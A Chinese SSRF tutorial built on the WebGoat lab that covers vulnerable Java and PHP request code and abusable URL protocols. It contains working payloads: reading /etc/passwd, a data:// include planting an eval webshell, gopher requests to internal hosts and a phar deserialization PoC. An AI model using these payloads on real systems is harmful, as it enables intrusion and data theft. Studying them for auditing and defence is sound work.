

## 定义
SSRF(Server-side request forgery，服务端跨站请求伪造)是一种 Web 安全漏洞，允许攻击者诱导服务器端应用程序向攻击者选择的任意域发出 HTTP 请求。攻击可强制让服务器链接到任意内部或者外部的其他主机，从而可能泄露服务器敏感信息或者对其他主机发起恶意请求。常见的利用方式可以探测内部网络部署的服务信息、端口开放情况，攻击一些内部的服务等。
### SSRF成因
SSRF 形成的原因往往是由于服务端提供了从其他服务器应用获取数据的功能且没有对目标地址做过滤与限制。如：从指定URL地址获取网页文本内容，加载指定地址的图片，下载等。利用的就是服务端的请求伪造。ssrf是利用存在缺陷的web应用作为代理攻击远程和本地的服务器。
## SSRF 类型
根据SSRF 请求后的返回情况来看，SSRF可以分为以下三种情况，一般来说，完全回显的SSRF可以直观的看到SSRF产生的效果，比如可以很快得知内部的一些系统框架版本等信息；部分回显可能只有一些响应状态码等信息来判断内部网络情况；Bind SSRF 这种只能尝试一些如数据外带的方式的利用方式了。
这里使用[WebGoat](https://github.com/WebGoat/WebGoat)靶场来针对性的讲解如下示例

### 有回显的SSRF
有回显的SSRF在漏洞触发之后，可以将服务器请求后的详细信息返回。以Webgoat靶场中的SSRF模块来分析，SSRFTask2使用了`java.net.URL`类对外部发起请求，其关键代码如下
```java
import java.net.URL;

try (InputStream in = new URL(url).openStream()) {
    // Otherwise the \n gets escaped in the response
    html = new String(in.readAllBytes(), StandardCharsets.UTF_8).replaceAll("\n","<br>"); 
} catch (MalformedURLException e) {
    return getFailedResult(e.getMessage());
} catch (IOException e) {
    //in case the external site is down, the test and lesson should still be ok
    html = "<html><body>Although the http://ifconfig.pro site is down, you still managed to solve" + " this exercise the right way!</body></html>";
}
```


分析代码，对输入的URL进行了matches匹配，只允许访问`http://ifconfig.pro`，为了查看回显SSRF效果，将代码中的字符串匹配逻辑修改如下

```java

 if (!url.matches(" ")) {
     String html;
     try (InputStream in = new URL(url).openStream()) {
         ...
     } catch {
         ....
     }
 }
```


在这里测试，在url中输入`http://www.baidu.com`，就会把请求内容返回回来，这种就叫做有回显的ssrf提交的URL参数在服务器上使用java.net.URL类去发起请求，然后打开URL保存二进制流`InputStream in = new URL(url).openStream()`，最后将结果处理后返回给前端。


### 侧信息的SSRF（返回状态码，时间延时等）
这种类型因为在后端进行了相应处理，无法获得完整的响应源码，只能通过后端返回状态码，请求响应延时等来判断SSRF情况。像上面的demo可以修改一下模拟这个场景，成功请求返回1,失败返回0


当请求一个不存在的域名导致失败，输出位置返回0：


这就是根据回显信息的不同表现来判断是否成功发起了请求，在SSRF中可以对自身web服务进行请求再和不存在的地址请求，可以观察到不同的响应参数值、响应延时等说明极有可能存在SSRF。

### Bind SSRF（完全没有回显或其他侧信息）
这一类的SSRF就完全没有回显和侧信息来泄露利用结果，服务器的返回始终一致，一般的可以通过OOB数据带外来观察是否存在漏洞，如下使用端口监听方法，vps上开启端口监听，在可能存在漏洞的位置写入vps的监听地址


使用dnslog平台判断


## SSRF漏洞挖掘
### 常见漏洞场景

- 带有URL的参数传递
- 参数中的图片地址
- 端口开放情况检测
- 数据库链接检测
- 代码仓库的clone
- 远程文件内容获取
- 远程图片获取
- 后台状态刷新
- web hook消息同步
- 远程图片或文件的加载与下载
- 离线下载
- 网页翻译
- 在线转码（ffpmg，ImageMagick，docx，pdf，xml）
- 收藏功能
- 云服务厂商
- 网络探测工具（网络设备）
- 网站采集
- 数据库内置（MongoDB）
- 邮箱（Exchange）在线打印服务
- 订阅服务
- 等请求字段中存在IP的地方


关注一些可能使用远程地址的功能、带有URL等关键字的参数、带远程地址的参数值等
### 常见参数名称

- share
- wap
- url
- link
- src
- source
- target
- u
- 3g
- display
- sourceURI
- imageURL
- domain
- 等等...


### JAVA中的SSRF
产生SSRF的原因都是在代码层面没有对传入的地址进行严格限制。在JAVA代码审计中，不仅要关注可能对外发起请求的类调用，也要关注一些限制措施是否存在绕过的可能，在手工审计过程中通过功能点审计一些常见的外部请求类和第三方包的使用代码，进而分析是否存在漏洞，总结一些可能存在SSRF漏洞的代码，审计时可以查找类的调用代码，观察输入是否可控、代码过滤是否可以绕过。
在webgoat中，SSRF的两个task都是做过限制，比如如下，如果url不能完全匹配`http://ifconfig.pro`，则无法进入代码层


#### JAVA 的网络请求类
**java.net.URL**
webgoat靶场SSRF中的代码，使用URL类中openStream()打开远程链接的数据流：

```java
import java.net.URL;
try {
 InputStream in = new URL(url).openStream()
} 
```
**java.net.URLConnection**
URL类的openConnection方法：
```java
import java.net.URLConnection;
URLConnection urlConnection = new URL(url).openConnection();   
```
**java.net.HttpURLConnection**
```java
import java.net.HttpURLConnection;
URL requrl = new URL(url);
HttpURLConnection con = (HttpURLConnection) requrl.openConnection();
```
**java.net.http.***
在JDK11后开始自带，由JDK9的jdk.incubator.http迁移而来：
```java
import java.net.http.HttpClient;
import java.net.http.HttpRequest;
import java.net.http.HttpResponse;
 HttpClient client = HttpClient.newHttpClient();
                HttpRequest request = HttpRequest.newBuilder()
                        .uri(
                                java.net.URI.create("http://foo.com/"))
                        .build();
                client.sendAsync(request, HttpResponse.BodyHandlers.ofString())
                        .thenApply(HttpResponse::body)
                        .thenAccept(System.out::println)
                        .join();
```
**Apache HttpComponents**
```java
try (CloseableHttpClient httpclient = HttpClients.createDefault()) {
...
}
httpclient.execute()
HttpPost httpPost = new HttpPost
...
```
**okhttp**
OkHttp是一个 Java 的 HTTP+SPDY 客户端开发包，同时也支持 Android，由Square 公司开源贡献，项目官博：https://square.github.io/okhttp/。示例代码：

```java
package okhttp3.guide;
import java.io.IOException;
import okhttp3.OkHttpClient;
import okhttp3.Request;
import okhttp3.Response;
public class GetExample {
  final OkHttpClient client = new OkHttpClient();
  String run(String url) throws IOException {
    Request request = new Request.Builder()
        .url(url)
        .build();
    try (Response response = client.newCall(request).execute()) {
      return response.body().string();
    }
  }
  public static void main(String[] args) throws IOException {
    GetExample example = new GetExample();
    String response = example.run("https://raw.github.com/square/okhttp/master/README.md");
    System.out.println(response);
  }
}
```
**Retrofit**
Retrofit 是 Square 公司出品的默认基于 OkHttp 封装的一套 RESTful 网络请求框架，适用于 Android 和 Java 的类型安全HTTP 客户端，示例代码：

```java
Retrofit retrofit = new Retrofit.Builder()
    .baseUrl("https://api.github.com/")
    .addConverterFactory(GsonConverterFactory.create())
    .build();
 
GitHubService service = retrofit.create(GitHubService.class);
 
 
 
RestTemplate
RestTemplate是Spring用于同步客户端HTTP访问的中心类，遵循RESTful规范，简化了与 HTTP 服务器的通信。
RestTemplate restTemplate = new RestTemplate();
        ResponseBean responseBean = restTemplate.postForObject(url, requestBean, ResponseBean.class);
```
**OpenFeign**
Feign是一个声明式WebService客户端，其工作原理是将注释处理成模板化的请求，通过占位符{id}来简化API的处理,示例代码：
```java

interface Bank {
  @RequestLine("POST /account/{id}")
  Account getAccountInfo(@Param("id") String id);
}
 
public class BankService {
  public static void main(String[] args) {
    Bank bank = Feign.builder()
        .decoder(new AccountDecoder())
        .options(new Request.Options(10, TimeUnit.SECONDS, 60, TimeUnit.SECONDS, true))
        .target(Bank.class, "https://api.examplebank.com");
  }
}
```
### PHP 中的SSRF
#### PHP 的网络请求函数
在PHP中使用`fsockopen()、pfsockopen()、file_get_contents()、show_source()、highlight_file()、curl_exec()、curl_multi_exec()、fopen()、readfile()、mysqli_connect()、include()、require()、file()、copy()`等函数不当可能导致SSRF漏洞。可以在php.net中搜索网络请求、套接字建立、数据库链接、文件操作相关的函数，部分函数使用的示例代码如下，代码审计时可根据关键字搜索函数进行分析：
```php
<?php
class SSRF {
    public $url;
    public $port;
    function __construct() {
        $this->url = $_GET['url'];
        $this->port = $_GET['port'];
    }
     
    function SSRF_fsockopen() { 
        echo "<hr>".__FUNCTION__."<br>";
        $fp = fsockopen($this->url, $this->port, $errno, $errstr, 30);
    }
     
    function SSRF_pfsockopen() { 
        echo "<hr>".__FUNCTION__ ;
        $fp = pfsockopen($this->url, $this->port, $errno, $errstr, 5);
    }
     
    function SSRF_file_get_contents(){
        echo "<hr>".__FUNCTION__."<br>";
        file_get_contents($this->url);
    }
     
    function SSRF_curl_exec(){
        echo "<hr>".__FUNCTION__."<br>";
        $ch = curl_init();
        // 设置 URL 和相应的选项
        curl_setopt($ch, CURLOPT_URL, $this->url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        // 抓取 URL 并把它传递给浏览器
        curl_exec($ch);
        // 关闭 cURL 资源，并且释放系统资源
        curl_close($ch);
    }
     
    function SSRF_curl_multi_exec(){
        echo "<hr>".__FUNCTION__."<br>";
        // 创建cURL资源
        $ch1 = curl_init();
 
        // 设置URL和相应的选项
        curl_setopt($ch1, CURLOPT_URL, $this->url);
        curl_setopt($ch1, CURLOPT_HEADER, 0);
 
        // 创建批处理cURL句柄
        $mh = curl_multi_init();
 
        // 增加2个句柄
        curl_multi_add_handle($mh,$ch1);
 
        $active = null;
        // 执行批处理句柄
        do {
            $mrc = curl_multi_exec($mh, $active);
        } while ($mrc == CURLM_CALL_MULTI_PERFORM);
 
        while ($active && $mrc == CURLM_OK) {
            if (curl_multi_select($mh) != -1) {
                do {
                    $mrc = curl_multi_exec($mh, $active);
                } while ($mrc == CURLM_CALL_MULTI_PERFORM);
            }
        }
 
        // 关闭全部句柄
        curl_multi_remove_handle($mh, $ch1);
        curl_multi_close($mh);
    }
     
    function SSRF_fopen(){
        echo "<hr>".__FUNCTION__."<br>";
        fopen($this->url,"r");    
    }
     
    function SSRF_readfile(){
        echo "<hr>".__FUNCTION__."<br>";
        readfile($this->url);
    }
     
    function SSRF_mysqli_connect(){
        echo "<hr>".__FUNCTION__."<br>";
        mysqli_connect($this->url, "my_user", "my_password", "my_db");
    }
     
    function SSRF_include(){
        echo "<hr>".__FUNCTION__."<br>";
        include "$this->url";
    }
     
    function SSRF_require(){
        echo "<hr>".__FUNCTION__."<br>";
        require "$this->url";
    }
     
}
$S = new SSRF;
$S->SSRF_fsockopen();   //url=127.0.0.1&port=9666
$S->SSRF_pfsockopen();  //连接一直不会关闭, url=tcp://127.0.0.1&port=9666 ,可用 ssl://,tls:// 
$S->SSRF_file_get_contents();// url=http://127.0.0.1:9666/1.php
$S->SSRF_curl_exec();       //url=http://127.0.0.1:9666/1.php
$S->SSRF_curl_multi_exec(); // url=http://127.0.0.1:9666/1.php
$S->SSRF_fopen();           //配置php.ini allow_url_fopen=On,url=http://127.0.0.1:9666/1.php
$S->SSRF_readfile();       // url=http://127.0.0.1:9666/1.php
$S->SSRF_mysqli_connect(); //url=127.0.0.1:9666
$S->SSRF_include();        //配置php.ini allow_url_include=On,需要文件名为.php,url=http://127.0.0.1:9666/1.php
$S->SSRF_require();        //配置php.ini allow_url_include=On,需要文件名为.php,url=http://127.0.0.1:9666/1.php
?>
```
## SSRF 可利用的协议

### JAVA
经过测试在JDK15中可以支持以下协议使用：http、https、ftp、file、jar、mailto*,openjdk9中移除了协议[netdoc](https://bugs.openjdk.java.net/browse/JDK-8176351),JDK8中移除了gopher协议的支持。以webgoat靶场SSRF为例测试部分协议的使用，使用file协议读取文件/列目录(file:///etc/passwd)：
#### file协议


#### Jar协议
需要源文件为zip或者jar包，来本地读取文件
```shell
jar:file:///home/luogan/Desktop/test.zip!/ShiroExploit.V2.51/config/keys.conf
jar:file:///home/luogan/Desktop/ShiroExploit.V2.51/ShiroExploit.jar!/my.css
```


jar协议读取远程文件(`jar:http(s)://x.x.x/xx.zip!/file.txt`)，同时会下载远程文件保存在本地缓存中：

```shell
jar:http://127.0.0.1:8888/ShiroExploit.V2.51/ShiroExploit.jar!/my.css
```


#### java.net.HttpURLConnection类转换
部分类支持的协议会进行限制，使用了HttpURLConnection对openConnection进行类型强制转换后的请求就只支持HTTP(S)：
```java
String html = "";
String line = "";
try{
    HttpURLConnection httpURLConnection = (HttpURLConnection) new URL(url).openConnection();
    httpURLConnection.setConnectTimeout(10*1000);
    httpURLConnection.setReadTimeout(10*1000);
    httpURLConnection.setRequestProperty("Charset", "utf-8");
    InputStreamReader inputStreamReader = new InputStreamReader(httpURLConnection.getInputStream());
    BufferedReader bufferedReader = new BufferedReader(inputStreamReader);
    while((line = bufferedReader.readLine())!=null){
        html += line;
    }
}catch (Exception e){
    return getFailedResult(e.getMessage());
}
```


#### mailto
mailto协议可以用来发送邮件，该协议的利用需要后端配置了邮件的发送服务器和相关的支持才能正常使用，协议格式如下：
```shell
mailto:name1@rapidtables.com?cc=name2@rapidtables.com&bcc=name3@rapidtables.com
&subject=The%20subject%20of%20the%20email &body=The%20body%20of%20the%20email
//抄送：name2@rapidtables.com
//密送：name3@rapidtables.com
//主题：The%20subject%20of%20the%20email
//正文：The%20body%20of%20the%20email
```
### PHP
在PHP中支持的协议：

```text
dict:// — 词典网络协议(curl扩展支持)
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) URL
ftp:// — 访问 FTP(s) URL
php:// — 访问各种 I/O 流
zlib:// ——压缩流
data:// — 数据 (RFC 2397)
glob:// — 查找匹配模式的路径名
phar:// — PHP 存档
ssh2:// — 安全外壳 2
rar:// — RAR
ogg:// — 音频流
expect:// ——流程交互流
gopher:// —— 信息查找系统协议
```

#### DATA 协议
DATA协议配合include(require) Getshell
```http
data://text/plain,<?php%20phpinfo();
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b  (<?php phpinfo();?>,+号使用url编码)
data://image/jpeg,
```
```http
data://text/plain,<?php%20phpinfo();
```


```http
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```


```http
POST /index.php?url=data://text/plain,<?php+@eval($_POST['cmd']); HTTP/1.1
Host: 127.0.0.1
sec-ch-ua: "Chromium";v="91", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 21

cmd=system('whoami');
```


#### DICT 协议
DICT协议是词典网络协议，在RFC 2009中进行描述，使用空格或者:作为分隔参数。在利用dict协议中，一行只能包括一行命令，不能输入多行命令(所以不能攻击认证的redis)：
下面是具体攻击redis服务，由于Redis在Ubuntu上，写入定时任务会预检，导致无法执行，但是在centos上是没有问题的




对于<、?、: 等特殊符号需要转为对应的16进制：

```http
< => \x3c 
? => \x3f 
: => \x3a
```

#### Gopher 协议
该协议在PHP中需要cURL扩展支持，使用curl_exec(),curl_multi_exec()函数发起请求。gopher协议格式为gopher://IP:port/_{TCP/IP数据流}，开始的字符可以随意，数据流使用URL编码，我们发送到的payload需要双编码，因为gopher协议会将url解码一次，再进行传输不认识\r\n或者?就不能成功
注意，GET 请求不带HTTP协议版本，POST请求一定要带HTTP协议版本


将?(%3f)编码成(%25%3f)

```http
gopher://192.168.200.38:8888/_%47%45%54%20%2f%74%65%73%74%2e%70%68%70%253f%66%69%6c%65%31%3d%73%68%65%6c%6c%2e%70%68%70%250d%250a%48%6f%73%74%3a%20%31%32%37%2e%30%2e%30%2e%31
```


POST需要Content-Type,Content-Length,HOST,POST_DATA，请求体整体URL编码


```http
gopher://192.168.200.76:80/_%50%4f%53%54%20%2f%74%65%73%74%31%2e%70%68%70%20%48%54%54%50%20%2f%31%2e%31%250d%250a%48%6f%73%74%3a%20%31%32%37%2e%30%2e%30%2e%31%250d%250a%43%6f%6e%74%65%6e%74%2d%54%79%70%65%3a%20%61%70%70%6c%69%63%61%74%69%6f%6e%2f%78%2d%77%77%77%2d%66%6f%72%6d%2d%75%72%6c%65%6e%63%6f%64%65%64%250d%250a%43%6f%6e%74%65%6e%74%2d%4c%65%6e%67%74%68%3a%20%38%250d%250a%250d%250a%64%61%74%61%3d%31%32%33
```


#### PHAR 协议
PHAR协议用于在PHP中解析phar文件，phar文件的meta-data字段存在反序列化漏洞，可以使用协议读取文件触发反序列化，漏洞代码：
```php
<?php 
	class AnyClass{ 
		function __destruct() { 
			var_dump($_this); 
			eval($this -> output); 
		} 
	} 
	file_get_contents($_GET["file"]);
```
生成phar文件poc
```php
<?php
class AnyClass{
    function __destruct()
    {
        echo $this -> output;
    }
}
@unlink("phar.phar");
$phar = new Phar('phar.phar');
$phar -> stopBuffering();
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');
$phar -> addFromString('test.txt','test');
$object = new AnyClass();
$object -> output= 'system("whoami");';
$phar -> setMetadata($object);
$phar -> stopBuffering();
```


#### php://filter
读取本地文件并进行base64编码
```
php://filter/convert.base64-encode/resource=xx.xx
php://filter/read=convert.base64-encode/resource=xx.xx
```


#### php://input
可以获取请求中的原始流，如读取POST输入流


## 参考链接
[https://cheatsheetseries.owasp.org/assets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet_SSRF_Bible.pdf](https://cheatsheetseries.owasp.org/assets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet_SSRF_Bible.pdf)

